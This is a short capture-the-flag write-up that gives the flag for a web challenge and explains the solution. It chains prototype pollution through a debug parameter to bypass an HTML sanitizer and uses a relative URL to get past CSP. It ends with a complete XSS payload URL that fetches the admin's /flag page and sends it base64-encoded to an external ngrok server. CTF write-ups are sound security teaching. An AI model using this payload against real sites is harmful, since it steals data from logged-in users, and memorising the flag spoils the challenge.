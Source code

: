# Flag

`shaktictf{_3nv120nm3n741_ju571c3_}`

# Solution

 - You need to send the admin a link via the admin bot and use XSS to access the `/flag` route and send it to your own server
 - You'll need to setup a server to receive the result. For example, combine an [http server](https://github.com/zoeyg/sec/blob/master/tools/simple-http-server.js) that will accept requests with ngrok.com to expose it externally
 - Use prototype pollution and the debug functionality to bypass the HTML sanitizer, you'll then hit the CSP
 - To get around the CSP use a relative url
 - An example url to send the admin:

```
https://superfund-challenge.2r.is/x/..%2fadmin/index.html?debug={"__proto__":{"allowedAttrs":["src","onerror"]},"user":{"name":"<img+src=x+onerror=fetch('/flag').then(r=%26gt;r.text()).then(d=%26gt;fetch('https://5103fe977eae.ngrok.io/b64/'%2Bbtoa(d))) />"}}&id=x
 ```